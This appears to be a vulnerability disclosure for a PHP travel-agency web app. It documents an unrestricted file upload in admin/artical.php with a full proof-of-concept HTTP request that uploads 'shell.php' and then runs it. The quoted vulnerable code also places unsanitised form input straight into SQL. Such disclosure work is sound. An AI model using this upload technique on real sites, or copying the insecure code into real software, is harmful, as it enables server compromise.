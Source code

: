 # [Online Travel Agency System-File upload vulnerabilities-artical.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/artical.php

**[Vulnerability Location]:** /Travel/admin/artical.php

**[Vulnerability Test]:**

1. First visit http://10.151.222.198/Travel/admin/artical.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `Picture` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428174613.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/artical.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 621
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/artical.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="title"
   
   aaaa
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="file"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="page_type"
   
   home
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="description"
   
   this is a page
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="save"
   
   submit
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ--
   
   ```
   
   The response results are shown in the figure
   
   ![](../../img/20230428174555.png)
   
4. Visit http://10.151.222.198/Travel/admin/artical_view.php, where all articals are displayed, including the article just added, and the path to the image is displayed in the front-end source code.

   ![](../../img/20230428174917.png)

5. Visit http://10.151.222.198/Travel/admin/uploaded/shell.php

   ![](../../img/20230428175213.png)

**[code analysis]:**

In /Travel/admin/artical.php:

```php
<?php
if(isset($_POST['save']))
{
$title=$_POST['title'];	
$description=$_POST['description'];	
$page_type=$_POST['page_type'];	

$dir='uploaded/';
$uploadfile=$dir.basename($_FILES['file']['name']);
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)){
$filename=$_FILES['file']['name'];
}

$query_insert=mysqli_query($con,"INSERT INTO pages(`title`, `picture`, `page_type`,  `description`) VALUES ('$title', '$filename', '$page_type', '$description')" )  or die(mysqli_error($con));
}
?>
```

No filtering is done on uploaded filenames

In /Travel/admin/artical_view.php

```php+HTML
<?php
$sql=mysqli_query($con,"select * from pages ORDER BY 'Aid' DESC")or die("Query Error");
while($row=mysqli_fetch_array($sql)){
	$page_id=$row['page_id'];
?>

// In line 31
<img src="uploaded/<?php  echo $row['picture']; ?>" width="120" height="100">
```

And the file address is echoed on the page

